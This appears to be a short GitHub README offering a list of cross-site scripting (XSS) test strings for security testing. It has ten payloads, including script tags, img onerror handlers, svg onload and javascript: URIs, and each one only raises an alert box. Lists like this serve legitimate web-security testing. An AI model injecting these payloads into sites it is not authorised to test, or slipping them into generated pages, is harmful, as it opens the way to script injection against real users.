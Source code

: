# alerts-v2-security

A list of XSS test strings. 

security tests
XSS examples:
```html
<script>alert("XSS");</script>
<img src="javascript:alert('XSS');">
<svg/onload=alert('XSS')>
<a href="javascript:alert('XSS')">click me</a>
"><script>alert('XSS');</script>
<script>alert(String.fromCharCode(88,83,83));</script>
<img src=x onerror="alert('XSS')">
<img src=x:x onerror="alert('XSS')">
<iframe src="javascript:alert('XSS');"></iframe>
"><img src=x onerror="alert('XSS')">
```
